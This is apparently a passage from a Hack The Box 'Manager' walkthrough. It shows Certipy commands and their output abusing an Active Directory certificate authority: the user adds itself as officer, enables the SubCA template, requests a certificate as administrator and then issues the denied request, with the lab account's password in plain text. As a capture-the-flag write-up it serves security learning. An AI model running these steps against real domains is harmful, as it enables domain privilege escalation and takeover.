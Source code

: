 <br>
now we can request a certificate based on the SubCA template. It will be denied but we'll save the private key.

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad req -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -ca 'manager-DC01-CA' -template 'SubCA' -target manager.htb -upn administrator@manager.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 24
Would you like to save the private key? (y/N) y
[*] Saved private key to 24.key
[-] Failed to request certificate
{% endvimhl %}

<br>
Trying to issue a request keeps giving us an error?

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -issue-request 24 -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -target manager.htb 
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[-] Got access denied trying to issue certificate
{% endvimhl %}

<br>
and doing all the commands at once works for some reason..

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad ca -add-officer raven -ca 'manager-DC01-CA' -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 &&  certipy-ad ca -ca 'manager-DC01-CA' -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -enable-template 'SubCA' && certipy-ad req -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -ca 'manager-DC01-CA' -template 'SubCA' -target manager.htb -upn administrator@manager.htb && certipy-ad ca -ca 'manager-DC01-CA' -issue-request 28 -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 29
Would you like to save the private key? (y/N) y
[*] Saved private key to 29.key
[-] Failed to request certificate
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully issued certificate
{% endvimhl %}
